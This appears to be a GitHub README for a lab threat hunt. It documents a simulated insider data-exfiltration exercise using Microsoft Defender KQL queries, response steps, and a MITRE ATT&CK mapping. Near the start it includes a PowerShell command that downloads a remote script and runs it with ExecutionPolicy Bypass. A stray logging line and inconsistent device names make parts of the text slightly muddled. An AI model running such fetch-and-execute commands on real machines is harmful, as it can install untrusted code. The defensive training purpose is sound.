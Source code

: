 # 🛡️ Threat Hunting: Data Exfiltration by PIPd Employee (Simulated)

## 📁 Overview
This project documents the threat hunting investigation of a simulated data exfiltration attempt using Microsoft Defender for Endpoint (MDE), PowerShell, and KQL queries. The incident was initiated by executing a malicious PowerShell script that created and zipped employee data.

---

## 💣 Initial Setup: Simulated Attack
To generate logs for hunting, a PowerShell script named `exfiltratedata.ps1` was executed in a Windows VM (labuser).

Script executed:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1
```
![Malicious Code that was I runned before doing the threat hunt](https://github.com/user-attachments/assets/534ba0a4-90f5-429b-8b6a-95c464a58789)


### What the Malicious Script Does:
- Creates fake employee data (names, SSNs, salaries)
- Saves the data to a CSV file
- Compresses the file into a ZIP using 7-Zip
- Logs the actions to a file: `C:\ProgramData\entropygorilla.log`

---

## 🚩 Scenario Summary
- A disgruntled employee, John Doe, suspected of data theft after being placed on a PIP
- Script silently downloaded and archived fake employee data
- Analysis revealed archive and PowerShell activity using `7z.exe`

---

## 🧪 Steps Performed

### 1. Preparation
- Hypothesis: John may compress and exfiltrate sensitive data
- Reason: Admin privileges, performance concerns, behavioral red flags

### 2. Data Collection
Queried logs in MDE:
I did a search within MDE DeviceFileEvents for any activities with zip files, and found a suspicious activity involving a file named 7.zip created at Jun 16, 2025 12:26:25 AM and confirmed `7z.exe` used around the same timestamp a ZIP file was created:
```kql
DeviceFileEvents
| where DeviceName == "labuser"
| where FileName endswith ".zip"
| order by Timestamp desc
```
![Screenshot 2025-06-16 231527](https://github.com/user-attachments/assets/af7eae97-c5da-4785-8d67-fddcb51c0fb4)

### 3. Data Analysis
I took one of the instances of a zip file being created, took the timestamp and searched under DeviceProcessEvents for any Look for any kind of archive activity that included the 7-zip file. I discovered around the same time, a powershell script silently installed 7zip and then used 7zip to zip up employee data into an archive who’s Device Name is michealvm
Queried logs in MDE:
```kql
let archive_applications = dynamic(["winrar.exe", "7z.exe", "winzip32.exe"]);
let VMName = "labuser";
DeviceProcessEvents
| where FileName has_any(archive_applications)
| order by Timestamp desc
```
![Screenshot 2025-06-16 234256](https://github.com/user-attachments/assets/7c34a8b0-dbe4-493d-a08e-01b1721d5e65)

### 4. Investigation
Located execution of PowerShell and download activity:

Confirmed script downloaded and executed `exfiltratedata.ps1` silently.

![Capture3 (1)](https://github.com/user-attachments/assets/02905b4e-0045-4514-b8a3-52cffa997b46)

![Capture4 (1)](https://github.com/user-attachments/assets/9993d8d0-39a0-4a65-9e03-ba55dec38343)

# End logging
Log-Message "Script execution completed successfully."
### 5. Response
Steps taken:
- ✅ Isolated the endpoint via Microsoft Defender
- ✅ Alerted management of potential data archiving
- ✅ Verified no outbound exfiltration occurred during test
![Screenshot 2025-06-16 231527](https://github.com/user-attachments/assets/246c384e-1a79-4d1d-b7d5-b8e4de92bb17)

### 6. Documentation
Documented full investigation, timestamps, KQL queries, and matching MITRE techniques. All screenshots and findings are included in this repository.

### 7. Improvement
- 🔐 Improve PowerShell script logging
- 📦 Alert on archive creation by unexpected processes
- 👮‍♂️ Limit admin rights for non-IT staff
- 🧠 Include 7-Zip and other archivers in threat detection rules

---

## 🧬 MITRE ATT&CK TTP Mapping
| Tactic             | Technique                            | ID         |
|--------------------|----------------------------------------|------------|
| Execution          | PowerShell                            | T1059.001  |
| Defense Evasion    | Obfuscated Files or Information        | T1027      |
| Collection         | Archive via Utility                    | T1560.001  |
| Collection         | Data from Local System                 | T1005      |
| Exfiltration       | Exfiltration Over C2 Channel           | T1041      |
| Discovery          | File and Directory Discovery           | T1083      |
| Persistence        | Scheduled Task/Job                     | T1053.005  |
| Command & Control  | Ingress Tool Transfer                  | T1105      |
| Exfiltration       | Exfiltration to Cloud Storage          | T1567.002  |
| Execution          | User Execution: Malicious File         | T1204.002  |
| Defense Evasion    | Masquerading                           | T1036      |

---

## 📌 Recommendations
- Alert on unexpected use of PowerShell downloading scripts
- Audit scheduled task creations
- Monitor and alert on use of 7-Zip, WinRAR, etc.
- Limit user access to scripting tools

---

## 🧰 Tools Used
- Microsoft Defender for Endpoint (Advanced Hunting)
- Windows PowerShell ISE
- PowerShell Command Line
- KQL (Kusto Query Language)

---

Project maintained by: Felipe Restrepo  
Date: June 17, 2025
